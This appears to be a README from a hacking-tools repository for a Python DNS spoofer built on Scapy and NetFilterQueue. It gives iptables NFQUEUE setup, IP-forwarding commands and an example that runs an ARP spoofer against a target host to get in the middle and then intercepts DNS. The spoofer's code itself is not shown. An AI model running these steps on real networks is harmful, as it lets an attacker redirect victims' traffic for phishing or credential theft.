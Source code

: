 # DNS Spoofer

## Requirements

* Python 2 or 3
* [NetFilterQueue](https://github.com/oremanj/python-netfilterqueue#installation)
* An iptables `NFQUEUE` (`FORWARD` chain if comes from another device, `OUTPUT` and `INPUT` chain when testing on hacking machine)
* Scapy

```shell
$ sudo iptables -I FORWARD -j NFQUEUE --queue-num 0
```

or

```shell
$ sudo iptables -I OUTPUT -j NFQUEUE --queue-num 0
$ sudo iptables -I INPUT -j NFQUEUE --queue-num 0
```

## Usage

```shell
usage: dns_spoofer.py [-h] [-d DOMAIN] [-r IP]
```

### Example use

Go in the middle:

```shell
$ sudo sysctl -w net.ipv4.ip_forward=1
$ sudo python3 arp_spoofer.py -t 192.168.122.75 -s 192.168.122.1
```

Set up queue and intercept:

```shell
$ sudo iptables -I FORWARD -j NFQUEUE --queue-num 0
$ sudo python3 dns_spoofer.py                      
```

View queue with

```shell
$ sudo cat /proc/net/netfilter/nfnetlink_queue
```

Afterwards, do not forget to disable net.ipv4.ip_forward and to remove the created iptables `NFQUEUE`:

```shell
$ sudo sysctl -w net.ipv4.ip_forward=0
$ sudo iptables --flush
```

## Troubleshooting

* [ImportError on NetfilterQueue](https://github.com/tymyrddin/ymrir/wiki/netfilterqueue.md)
* [ImportError on Scapy](https://github.com/tymyrddin/ymrir/wiki/scapy.md)